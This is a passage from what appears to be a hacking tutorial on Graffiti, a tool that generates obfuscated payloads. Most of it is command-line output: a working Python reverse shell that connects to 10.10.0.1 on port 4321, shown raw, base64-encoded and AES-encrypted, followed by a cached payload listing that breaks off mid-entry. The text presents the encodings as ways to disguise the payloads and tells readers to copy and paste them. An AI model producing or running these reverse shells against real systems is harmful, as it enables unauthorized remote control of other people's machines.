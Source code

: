 The **-p** switch is the bread and butter of Graffiti — use it to specify a payload, followed by **-c** to specify the encoding technique, and finally **-lH** and **-lP** to set the listening address and port, respectively. Here is a Python reverse shell in raw format, meaning no encoding:

```
~# graffiti -p /linux/python/socket_reverse.json -c raw -lH 10.10.0.1 -lP 4321

python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.0.1",4321));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

That will spit out the command for the appropriate [reverse shell](https://null-byte.wonderhowto.com/how-to/use-command-injection-pop-reverse-shell-web-server-0185760/) with all the information filled in. All we need to do at this point is copy and paste.

Let's try another example. Here is that same Python reverse shell encoded in base64:

```
~# graffiti -p /linux/python/socket_reverse.json -c base64 -lH 10.10.0.1 -lP 4321

python -c 'exec("aW1wb3J0IHNvY2tldCxzdWJwcm9jZXNzLG9zO3M9c29ja2V0LnNvY2tldChzb2NrZXQuQUZfSU5FVCxzb2NrZXQuU09DS19TVFJFQU0pO3MuY29ubmVjdCgoIjEwLjEwLjAuMSIsNDMyMSkpO29zLmR1cDIocy5maWxlbm8oKSwwKTsgb3MuZHVwMihzLmZpbGVubygpLDEpOyBvcy5kdXAyKHMuZmlsZW5vKCksMik7cD1zdWJwcm9jZXNzLmNhbGwoWyIvYmluL3NoIiwiLWkiXSk7".decode("base64"))'
```

And again, this time using the AES256 cipher:

```
~# graffiti -p /linux/python/socket_reverse.json -c aes256 -lH 10.10.0.1 -lP 4321

# be sure that the target has PyCrypto on their system!
python -c 'import base64;from Crypto import Random;from Crypto.Cipher import AES;from Crypto.Util import Counter;ct=base64.b64decode("7mC355qybpwkZRVMOGKbHBNqNKFwVbBcpgBZ0cwQlNT6sAF3YwLN9DmIFph4GCRHFVEghR8xTeWIulP3MOpPAI869iFn5FzX3Y32m9tGqiVzvL0tO0NTU2gQXTAauni+8p0+Au/fxjgX8AwpuJOl7lIPFxVHTk/zRLu0mg257OknhKgJxuQgUM5SrXG+XJcg1BRohs0AHJSGjLQs0oqfBxV4WPLLMVQHP76DJHTndgakXf0cHhbkJa+J6umbjMaG+6ZbJSz/7SQo+9XWzTGNU5w80/KP");dk=base64.b64decode("gGhVa2B/DPmOp1tfIL2AhdyVyTapvpgtkCLFZ4WL0OU=");iv=base64.b64decode("VSUepHglfitT7q08vuekMA==");ivi=int(iv.encode("hex"),16);co=Counter.new(AES.block_size*8,initial_value=ivi);a=AES.new(dk,AES.MODE_CBC,counter=co);r=a.decrypt(ct);exec(str(r))'
```

Instead of going back and running these commands again, Graffiti keeps a cache of payloads for easy access — use the **-vC** option to see them:

```
~# graffiti -vC

total of 3 payloads present

Language: python
Payload Type: reverse
Payload: python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.0.1",4321));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

Language: python
Payload Type: reverse
Payload: python -c 'exec("aW1wb3J0IHNvY2tldCxzdWJwcm9jZXNzLG9zO3M9c29ja2V0LnNvY2tldChzb2NrZXQuQUZfSU5FVCxzb2NrZXQuU09DS19TVFJFQU0pO3MuY29ubmVjdCgoIjEwLjEwLjAuMSIsNDMyMSkpO29zLmR1cDIocy5maWxlbm8oKSwwKTsgb3MuZHVwMihzLmZpbGVubygpLDEpOyBvcy5kdXAyKHMuZmlsZW5vKCksMik7cD1zdWJwcm9jZXNzLmNhbGwoWyIvYmluL3NoIiwiLWkiXSk7".decode("base64"))'

Language: python
Payload Type: reverse
```